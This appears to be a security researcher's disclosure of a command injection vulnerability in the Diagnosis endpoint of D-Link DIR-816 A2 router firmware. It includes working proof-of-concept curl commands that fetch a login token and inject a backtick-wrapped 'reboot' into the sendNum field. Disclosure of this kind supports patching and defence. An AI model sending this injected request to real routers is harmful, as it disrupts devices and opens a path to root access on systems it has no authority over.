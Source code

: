 # D-link DIR-816 A2_v1.10CNB04.img Command injection vulnerability

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/Diagnosis/img/vuln1.png)

Vulnerability occurs in /goform/Diagnosis，After the if condition is met, setnum will be spliced into v10 by snprintf, and finally system will be executed, resulting in a command injection vulnerability

## Poc

The first thing you need to do is to get the tokenid
```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then run the following poc

```
curl -i -X POST http://192.168.0.1/goform/Diagnosis -d tokenid=xxxx -d 'pingAddr=192.168.0.1' -d 'sendNum=`reboot`'
```

Then you can see that the router restarts, and finally we can write an exp to get root
